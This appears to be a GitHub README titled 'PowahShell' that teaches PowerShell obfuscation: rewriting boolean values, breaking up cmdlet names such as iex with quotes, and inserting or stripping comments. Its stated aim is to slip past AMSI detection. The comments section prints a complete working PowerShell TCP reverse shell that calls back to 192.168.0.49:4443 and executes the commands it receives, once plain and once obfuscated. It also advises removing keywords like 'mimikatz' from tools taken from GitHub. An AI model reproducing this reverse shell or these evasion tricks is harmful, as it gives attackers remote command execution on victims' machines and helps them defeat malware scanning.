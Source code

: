 # PowahShell

## Techniques
1. [Obfuscate Boolean Values](#Obfuscate-Boolean-Values)
2. [Cmdlet Quote Interruption](#Cmdlet-Quote-Interruption)
3. [Append/Remove Comments](Append/Remove-Comments)

## Obfuscate Boolean Values
It's super fun and easy to replace `$True` and `$False` values with other boolean equivalents, which are literaly unlimited. All of the examples below evaluate to `True`. You can reverse them to `False` by simply adding an exclamation mark before the expression (e.g., `![bool]0x01`):
 - Boolean typecast of literally anything that is not 0 or Null will return `True`:
 ```
 [bool]1254
 [bool]0x12AE
 [bool][convert]::ToInt32("111011", 2) # Converts a string to int from base 2 (binary)
 ![bool]$null
 ![bool]$False
 [bool]"Any non empty string"
 [bool](-12354893)   # Boolean typecast of a negative number 
 [bool](12 + (3 * 6))
 ```
 - Boolean typecast of any class will return `True` as well:
 ```
 [bool][bool]
 [bool][char]
 [bool][int] 
 [bool][string]
 [bool][double]
 [bool][short]
 [bool][decimal]
 [bool][byte]
 [bool][timespan]
 [bool][datetime]
 
 [bool][System.Collections.ArrayList]
 [bool][System.Collections.CaseInsensitiveComparer]
 [bool][System.Collections.Hashtable]
 # Well, you get the point.
 ```
 - The result of a comparison that evaluates to `True` (duh):
 ```
 (9999 -eq 9999)
 ([math]::Round([math]::PI) -eq (4583 - 4580))
 [Math]::E -ne [Math]::PI
 ```

 - Boolean type casting something you know will return a value Not equal to 0 (can also be a string, array, etc)
 ```
 [bool](Get-ChildItem -Path Env: | Where-Object {$_.Name -eq "username"})
 [bool]@(0x01BE)
 ```
 - Or you can just grab a `True` value from an object's attributes:
 ```
 $x = [System.Data.AcceptRejectRule].Assembly.GlobalAssemblyCache
 $x = [System.TimeZoneInfo+AdjustmentRule].IsAnsiClass
 $x = [mailaddress].IsAutoLayout
 $x = [ValidateCount].IsVisible
 ```
 - You can mix all these stuff and weird things up by composing hideous ways to state `True` or `False`:
 ```
 [bool](![bool]$null)
 [System.Collections.CaseInsensitiveComparer] -ne [bool][datetime]'2023-01-01'
 ```
 !$False


In loops and comparisons....

## Cmdlet Quote Interruption
You can obfuscate cmdlets by adding single and/or double quotes in between their characters, as long as it's not at the beginning. It's super effective! For example, the expresion `iex "pwd"` can be substituted with:
```
i''ex "pwd"
i''e''x "pwd"
i''e''x'' "pwd"
ie''x'' "pwd"
iex'' "pwd"
i""e''x"" "pwd"
ie""x'' "pwd"

# and so on... but also:

i''ex "p''wd"
i''e''x "p''w''d"
i''e''x'' "p''w''d''"
ie''x'' "pw''d`"`""
iex'' "p`"`"w`"`"d`"`""
i""e''x"" "p`"`"w`"`"d''"
ie""x'' "p`"`"w''d`"`""

# You get the point.
```

## Append/Remove Comments
### Appending Comments
Obfuscating a script by appending comments here and there might actually do the trick on its own:
for example, a reverse shell command could be obfuscated like this:

Original  
```$TCPClient = New-Object Net.Sockets.TCPClient('192.168.0.49', 4443);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String);$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()```

Modified (appended <# SOME RANDOM COMMENT #> in various places)  
```$TCPClient = New-Object <# SOME RANDOM COMMENT #> Net.Sockets.TCPClient('192.168.0.49', 4443);$NetworkStream = $TCPClient.GetStream() <# SOME RANDOM COMMENT #>;$StreamWriter = New-Object <# SOME RANDOM COMMENT #> IO.StreamWriter($NetworkStream);function WriteToStream ($String) <# SOME RANDOM COMMENT #> {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String);$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1); <# SOME RANDOM COMMENT #> $Output = try {Invoke-Expression $Command 2>&1 | Out-String} <# SOME RANDOM COMMENT #> catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()```

### Removing Comments
There are malware-ish keywords that will trigger AMSI immediatly and should be replaced when obfuscating scripts. Check this out:

Just by typing the work 'mimikatz' in the terminal AMSI is having a stroke. 
These keywords may be found in comments as well, so it's a good idea to remove them, especially from FOS resources you grab from the internet (e.g. `Invoke-Mimikatz.ps1` from GitHub). \*It's a good idea to remove comments generally, this was just an example.
